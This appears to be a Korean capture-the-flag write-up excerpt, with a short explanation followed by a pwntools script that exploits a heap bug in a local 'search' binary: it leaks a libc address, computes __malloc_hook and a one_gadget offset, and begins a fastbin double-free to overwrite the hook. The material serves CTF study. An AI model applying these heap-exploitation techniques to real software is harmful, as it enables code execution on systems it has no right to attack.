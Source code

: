 중간에 0x20을 넣어주면 이렇게 검색이 되더라 대충 중간에 더미 문자 하나 끼워서 그걸 다시 찾으면 출력이 될것 같다. (smallbin에 다시 재할당 되지 않도록 작은 녀석이어야 한다.)

```python
from pwn import *

t = process('./search')

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def sw(size,a):
	r("3: Quit")
	s("1")
	r(":")
	s(str(size))
	r(":")
	s(str(a))

def sen(size,a):
	r("3: Quit")
	s("2")
	r(":")
	s(str(size))
	r(":")
	s(str(a))

sen(0x100,"a"*0xf0 + " b " + "c"*(0x100-0xf3))

sw(1,"b")
r("?")
s("y")
sw(1,"\x00")

r("Found 256: ")
libc = u64(t.recv(6).ljust(8,'\x00')) - 0x3c4b78
log.success("libc ==> " + hex(libc))
malloc_hook = libc + 0x3c4b10
one = libc + 0xf02a4
log.success("one ==> " + hex(one))
r("?")
s("n")

sen(0x100,"a"*0x100)
sen(0x10,"y"*0x10)
sen(0x60,"d"*0x20 + " b " + "c"*(0x60-0x23))
sen(0x60,"d"*0x20 + " b " + "c"*(0x60-0x23))
sen(0x60,"d"*0x20 + " b " + "c"*(0x60-0x23))

sw(1,"b")
r("?")
s("y")
r("?")
s("y")
r("?")
s("y")

sw(1,"\x00")
r("?")
s("y")
r("?")
s("n")

sen(0x60,p64(malloc_hook-35) + "p"*(0x60-8))
```